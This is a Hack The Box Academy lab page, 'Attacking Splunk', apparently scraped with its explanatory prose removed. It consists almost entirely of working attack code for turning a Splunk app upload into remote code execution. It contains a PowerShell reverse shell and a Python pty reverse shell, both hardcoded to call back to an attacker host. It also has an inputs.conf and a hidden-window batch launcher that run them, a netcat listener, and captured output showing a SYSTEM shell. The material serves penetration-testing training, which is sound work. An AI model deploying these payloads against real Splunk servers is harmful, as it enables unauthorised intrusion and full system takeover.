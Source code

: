 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/113/section/1213
// Platform Version: V1
// Module ID: 113
// Module Name: Attacking Common Applications
// Module Difficulty: Medium
// Section ID: 1213
// Section Title: Attacking Splunk
// Page Title: Hack The Box - Academy
// Page Number: 14
-->

# Attacking Splunk

**Module Name:** Attacking Common Applications **Page Number:** 14

#### 

#### ATTACKING COMMON APPLICATIONS

# Attacking Splunk

## Abusing Built-In Functionality

``` shell-session
[!bash!]$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

``` powershell-session
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

``` shell-session
[!bash!]$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

``` shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

``` shell-session
[!bash!]$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

![https://academy.hackthebox.com/storage/modules/113/install_app.png](https://academy.hackthebox.com/storage/modules/113/install_app.png)

``` shell-session
[!bash!]$ sudo nc -lnvp 443

listening on [any] 443 ...
```

![https://academy.hackthebox.com/storage/modules/113/upload_app.png](https://academy.hackthebox.com/storage/modules/113/upload_app.png)

``` shell-session
[!bash!]$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

``` python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

# 

# 

#### Questions

####